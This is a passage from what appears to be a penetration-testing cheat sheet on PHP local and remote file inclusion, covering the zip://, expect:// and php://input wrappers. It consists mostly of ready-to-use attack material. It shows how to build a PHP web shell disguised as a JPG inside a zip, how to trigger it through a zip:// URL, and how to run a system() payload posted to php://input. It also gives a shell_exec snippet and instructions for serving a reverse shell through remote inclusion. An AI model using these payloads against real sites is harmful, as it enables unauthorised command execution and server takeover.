 To read the compression data you need to decode the base64 and read the resulting data using:

```
php -a
readfile('php://filter/zlib.inflate/resource=test.deflated');
```

### Wrapper zip://

Upload a Zip file with a PHPShell inside and access it.

```bash
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php

http://example.com/index.php?page=zip://shell.jpg%23payload.php
```

### Wrapper expect://

Used to execute code.

```
/include.php?file=except://id
```

### Wrapper input://

Interpret php payload sent by POST parameters.

```
/include.php?file=php://input

POST DATA: <?php system($_GET["cmd"]);?>
```

# Remote File Inclusion (RFI)

When we are able to include remote files to the application is synonym of remote code execution. We can include a webshell or a reverse shell.

```
/usr/share/webshells/php/php-reverse-shell.php
```

Or you can create a php file with command execution or another type of reverse shell:

```
<?php
$output = shell_exec('whoami 2>&1');
echo "$output";
?>
```

Finally you only need to set up a HTTP server or SMB server and request the rev shell.
